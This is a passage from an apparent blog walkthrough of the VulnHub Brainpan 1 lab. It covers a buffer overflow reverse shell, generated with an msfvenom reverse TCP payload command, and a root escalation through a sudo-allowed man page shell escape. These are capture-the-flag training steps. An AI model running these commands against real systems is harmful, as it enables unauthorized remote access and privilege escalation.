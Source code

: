 <div class="notice--info">
  <h4>Tip:</h4>
  <p><b>msfconsole -x</b> can be used to chain many metasploit commands into one! </p>
</div>

Concept of  BOFs is kind of complicated and describing it within one blogpost is impossible. I highly recommend binary hacking series by [LiveOverflow](https://www.youtube.com/playlist list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN) to begin learning if anything is unclear. 

Now that we have the exploit figured out, replace the windows shellcode with linux one (`msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.0.66 LPORT=3333 -f py -b '\x00'`) and re-run it on original Brainpan machine (**192.168.0.110**).  

<img src="/assets/img/blog/vulnhub-brainpan1/brainpan1-09.png">

<div class="notice--info">
  <h4>Tip:</h4>
  <p><b>python -c 'import pty; pty.spawn("/bin/sh")'</b> = A TTY shell for easier console interaction</p>
</div>

Reverse shell has been achieved ;) !

***

# Privilege escalation

Just do `sudo -l`:

```console
$ sudo -l

Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util

```
`anansi_util` allows running *manual* and *sudo* which is a dangerous combination because it can be easily chained together for easy root escalation. Open up a random man page (`man whoami` in my case) and execute a shell by typing `!/bin/sh`.
